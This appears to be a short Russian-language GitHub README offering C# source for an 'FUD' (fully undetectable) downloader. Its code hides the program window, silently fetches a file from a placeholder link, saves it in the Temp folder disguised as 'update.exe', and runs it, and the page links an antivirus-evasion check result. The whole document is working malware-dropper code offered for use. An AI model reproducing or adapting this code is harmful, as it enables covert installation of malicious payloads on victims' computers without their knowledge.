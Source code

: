 # Create Fud downloader in C#

### Функционал

В скрытом режиме скачивает и запускает нужное ПО

```C#
//Скрываем форму
            this.Hide();
            ShowIcon = false;
            ShowInTaskbar = false;
            Opacity = 0;

            byte[] srv = null; // создадим переменную для хранения файла
            try
            {
                using (WebClient web = new WebClient())
                {
                    srv = web.DownloadData("[ссылка на наш файл]"); // скачиваем файл
                }
            
                File.WriteAllBytes(Path.GetTempPath() + "\\update.exe", srv); // записываем в Temp
                Thread.Sleep(3000); // небольшая пауза на всякий случай
                Process.Start(Path.GetTempPath() + "\\update.exe"); // запускаем
                Application.Exit(); // выходим
            }
            catch (Exception ex)
            {
                MessageBox.Show(ex.Message); // сообщение если ошибка
}
```

![](https://viruscheckmate.com/image/b7mSkcZ25v3V/full/img.png)
